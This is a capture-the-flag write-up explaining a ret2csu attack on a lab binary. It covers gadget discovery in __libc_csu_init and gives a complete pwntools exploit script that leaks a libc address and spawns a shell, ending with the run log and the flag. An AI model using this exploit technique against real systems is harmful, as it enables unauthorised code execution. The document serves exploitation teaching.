

# [__Challenge7__](#)

## Description: 

* Simple ret2csu example. Overflow the buffer and SFP, overwrite the `return address` to leak a `libc` address. This time, only `read` and `write` are available and there is no `pop rdx` gadget. Use __libc_csu_init to fill `rdx` with 8 bytes and set all registers to leak a libc address and then perform `ret2libc` attack.

## Objective: 

* ret2csu.

## Flag:
* `FLAG{wh4t_15_r3t2Csu?!}`

## Challenge:

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge7/challenge/challenge7'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

* `Canary` is disabled, meaning we can have a possible `Buffer Overflow`.
* `PIE` is also disabled, meaning we know the base address of the binary and its functions and gadgets.

The interface of the program looks like this:



As we noticed before, there is indeed a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  setup();
  vulnerable_function();
  write(1,"\n[-] You failed!\n",0x11);
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  undefined local_48 [64];
  
  write(1,&DAT_004009d4,0x16);
  write(1,"\nStack frame:\n\n",0x10);
  write(1,"|_____________|\n",0x11);
  write(1,"|             |\n",0x11);
  write(1,"| Return addr |\n",0x11);
  write(1,"|_____________|\n",0x11);
  write(1,"|             |\n",0x11);
  write(1,"|     SFP     |\n",0x11);
  write(1,"|_____________|\n",0x11);
  write(1,"|             |\n",0x11);
  write(1,"|  Buffer[63] |\n",0x11);
  write(1,"|_____________|\n",0x11);
  write(1,"|      .      |\n",0x11);
  write(1,"|      .      |\n",0x11);
  write(1,"|_____________|\n",0x11);
  write(1,"|             |\n",0x11);
  write(1,"|  Buffer[0]  |\n",0x11);
  write(1,"|_____________|\n",0x11);
  write(1,"\n[*] Find gadgets in ",0x16);
  write(1,"__libc_csu_init.\n",0x12);
  write(1,"[*] Use the \'pop\' ",0x13);
  write(1,"gadgets to fill ",0x11);
  write(1,"registers r13-r15 ",0x13);
  write(1,"and manipulate ",0x10);
  write(1,"rdi, rsi, rdx ",0xf);
  write(1,"to call ",9);
  write(1,"write(1, write@got, 8)",0x17);
  write(1," to leak libc addr.",0x14);
  write(1,"\n[*] ret2libc\n\n> ",0x11);
  read(0,local_48,0x100);
  return;
}
```

There are only `read` and `write` commands here. There is also an obvious `Buffer Overflow` with `read(0, local_48, 0x100)` and `local_48` being only 64 bytes long.

Well, as long as we have a `Buffer Overflow` and `canary` and `PIE` are disabled, we can perform a `ret2libc` attack, right?

```gdb
gef➤  p puts
No symbol table is loaded.  Use the "file" command.
gef➤  p write
$1 = {<text variable, no debug info>} 0x400510 <write@plt>
gef➤  p read
$2 = {<text variable, no debug info>} 0x400530 <read@plt>
gef➤  p printf
No symbol table is loaded.  Use the "file" command.
```

There is no `puts` or `printf` function to print something on the stdout. Only `write` can print to stdout.

From the `man 2` page of `write`:

```console
SYNOPSIS
#include <unistd.h>

ssize_t write(int fd, const void *buf, size_t count);

DESCRIPTION
write() writes up to count bytes from the buffer starting at buf to the file referred to by the file descriptor fd.
```

As we can see, `write` takes 3 arguments:
* The file descriptor
* The buffer or the text to write
* Number of bytes to write

That means, we need 3 gadgets:

* `pop rdi; ret` -> 1st argument
* `pop rsi; ret` -> 2nd argument
* `pop rdx; ret` -> 3rd argument

With `Ropper` we can find the gadgets:

```console
➜  challenge git:(main) ✗ ropper --file ./challenge7 --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./challenge7
0x00000000004009b3: pop rdi; ret; 

➜  challenge git:(main) ✗ ropper --file ./challenge7 --search "pop rsi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi

[INFO] File: ./challenge7
0x00000000004009b1: pop rsi; pop r15; ret; 

➜  challenge git:(main) ✗ ropper --file ./challenge7 --search "pop rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx
```

There is no `pop rdx` gadget. That means, we cannot set the proper arguments for `write`. There is a place where we can find a gadget related to this.

### __libc_csu_init ⭐

We can learn some things about this function [here](https://security.stackexchange.com/questions/196096/why-does-my-stack-contain-the-return-address-to-libc-csu-init-after-main-is-in).
It is something that is called by default at the beginning of the program. Taking a look at the instructions:

```gdb
gef➤  disass __libc_csu_init 
Dump of assembler code for function __libc_csu_init:
   0x0000000000400950 <+0>:	push   r15
   0x0000000000400952 <+2>:	push   r14
   0x0000000000400954 <+4>:	mov    r15,rdx
   0x0000000000400957 <+7>:	push   r13
   0x0000000000400959 <+9>:	push   r12
   0x000000000040095b <+11>:	lea    r12,[rip+0x200456]        # 0x600db8
   0x0000000000400962 <+18>:	push   rbp
   0x0000000000400963 <+19>:	lea    rbp,[rip+0x200456]        # 0x600dc0
   0x000000000040096a <+26>:	push   rbx
   0x000000000040096b <+27>:	mov    r13d,edi
   0x000000000040096e <+30>:	mov    r14,rsi
   0x0000000000400971 <+33>:	sub    rbp,r12
   0x0000000000400974 <+36>:	sub    rsp,0x8
   0x0000000000400978 <+40>:	sar    rbp,0x3
   0x000000000040097c <+44>:	call   0x4004e8 <_init>
   0x0000000000400981 <+49>:	test   rbp,rbp
   0x0000000000400984 <+52>:	je     0x4009a6 <__libc_csu_init+86>
   0x0000000000400986 <+54>:	xor    ebx,ebx
   0x0000000000400988 <+56>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400990 <+64>:	mov    rdx,r15
   0x0000000000400993 <+67>:	mov    rsi,r14
   0x0000000000400996 <+70>:	mov    edi,r13d
   0x0000000000400999 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040099d <+77>:	add    rbx,0x1
   0x00000000004009a1 <+81>:	cmp    rbp,rbx
   0x00000000004009a4 <+84>:	jne    0x400990 <__libc_csu_init+64>
   0x00000000004009a6 <+86>:	add    rsp,0x8
   0x00000000004009aa <+90>:	pop    rbx
   0x00000000004009ab <+91>:	pop    rbp
   0x00000000004009ac <+92>:	pop    r12
   0x00000000004009ae <+94>:	pop    r13
   0x00000000004009b0 <+96>:	pop    r14
   0x00000000004009b2 <+98>:	pop    r15
   0x00000000004009b4 <+100>:	ret    
End of assembler dump.
```
We see that `rdx` is affected here: `0x0000000000400990 <+64>:	mov    rdx,r15`
The value of `r15` is moved to `rdx` and we have another gadget available that pops r15 at: `   0x00000000004009b2 <+98>:	pop    r15`.

It is obvious that whatever we put in `pop r15` will be moved to `rdx`.  
Apart from that we can see that we can also manipulate `rdi` and `rsi` via `r13` and `r14` respectively.  
Last but not least, we can call whatever there is in `r12` (if we zero out the `rbx`). 

Our goal is to call: `write(1, write@got, 0x8)` in order to leak `write@got`.  
That means we need to:  
* `pop r12` = `write@got` 
* `pop r13` = 1
* `pop r14` = `write@got`
* `pop r15` = 0x8

So, we are going to use these 2 gadgets:

```gdb
Gadget 1:
  0x00000000004009aa <+90>:  pop    rbx
  0x00000000004009ab <+91>:  pop    rbp
  0x00000000004009ac <+92>:  pop    r12
  0x00000000004009ae <+94>:  pop    r13
  0x00000000004009b0 <+96>:  pop    r14
  0x00000000004009b2 <+98>:  pop    r15
  0x00000000004009b4 <+100>: ret

Gadget 2:
  0x0000000000400990 <+64>:  mov    rdx,r15
  0x0000000000400993 <+67>:  mov    rsi,r14
  0x0000000000400996 <+70>:  mov    edi,r13d
  0x0000000000400999 <+73>:  call   QWORD PTR [r12+rbx*8]
```

Our payload for the leak looks like this:

```python
def gadgets(payload, g1, g2):
  payload += p64(g1)          # g1
  payload += p64(0)           # pop rbx
  payload += p64(1)           # pop rbp
  payload += p64(e.got.write) # pop r12 -> call
  payload += p64(1)           # pop r13 -> rdi
  payload += p64(e.got.write) # pop r14 -> rsi
  payload += p64(0x8)         # pop r15 -> rdx
  payload += p64(g2)          # ret
  payload += p64(0)*7         # pops
  payload += p64(e.sym.vulnerable_function)  # return to vulnerable function
  return payload
```

We also need to 0 `rbx`, so that it calls `[r12]` only and insert 1 to `rbp` to pass the comparison here:

```gdb
0x0000000000400999 <+73>:	call   QWORD PTR [r12+rbx*8]
0x000000000040099d <+77>:	add    rbx,0x1
0x00000000004009a1 <+81>:	cmp    rbp,rbx
```

After we get the leak with the usual way, we perform a `retlibc` attack, shown at challenge6, to get shell.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge7" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.5)
    
    # If the exit code == -1 (SegFault)
    if r.poll() == -11:
      if i%8==0:
        print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i), "green"))
        r.close()
        return i
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()

'''
Gadgets

Gadget 1:
  0x00000000004009aa <+90>:  pop    rbx
  0x00000000004009ab <+91>:  pop    rbp
  0x00000000004009ac <+92>:  pop    r12
  0x00000000004009ae <+94>:  pop    r13
  0x00000000004009b0 <+96>:  pop    r14
  0x00000000004009b2 <+98>:  pop    r15
  0x00000000004009b4 <+100>: ret

Gadget 2:
  0x0000000000400990 <+64>:  mov    rdx,r15
  0x0000000000400993 <+67>:  mov    rsi,r14
  0x0000000000400996 <+70>:  mov    edi,r13d
  0x0000000000400999 <+73>:  call   QWORD PTR [r12+rbx*8]

'''

def gadgets(payload, g1, g2):
  payload += p64(g1)          # g1
  payload += p64(0)           # pop rbx
  payload += p64(1)           # pop rbp
  payload += p64(e.got.write) # pop r12 -> call
  payload += p64(1)           # pop r13 -> rdi
  payload += p64(e.got.write) # pop r14 -> rsi
  payload += p64(0x8)         # pop r15 -> rdx
  payload += p64(g2)          # ret
  payload += p64(0)*7         # pops
  payload += p64(e.sym.vulnerable_function)  # return to vulnerable function
  return payload

def ret2libc(r, prompt, offset):
  # Leak write@got address
  leak = r.recvline_contains(b"\x7f").strip()
  leak = u64(leak.ljust(8, b"\x00"))
  print(colored("[+] Leaked address    @ 0x{:x}".format(leak), "green"))
  libc.address = leak - libc.sym.write
  print(colored("[+] Libc base address @ 0x{:x}".format(libc.address), "green"))
  
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft paylaod to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0]
  payload  = b"A"*offset
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi + 1) # stack alignment
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()

def pwn():
  # Find the overflow offset
  offset = find_boffset(200)
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  g1 = e.sym.__libc_csu_init + 90
  g2 = e.sym.__libc_csu_init + 64

  # Leak with ret2csu
  r.sendlineafter(">", gadgets(b"A"*offset, g1, g2))
  
  ret2libc(r, prompt, offset)

if __name__ == "__main__":
  pwn()

```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge7/challenge/challenge7'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './challenge7'
[*] '/home/w3th4nds/github/Thesis/challenge7/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
[+] Leaked address    @ 0x7f5db577e210
[+] Libc base address @ 0x7f5db566e000
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{wh4t_15_r3t2Csu?!}$ 
```
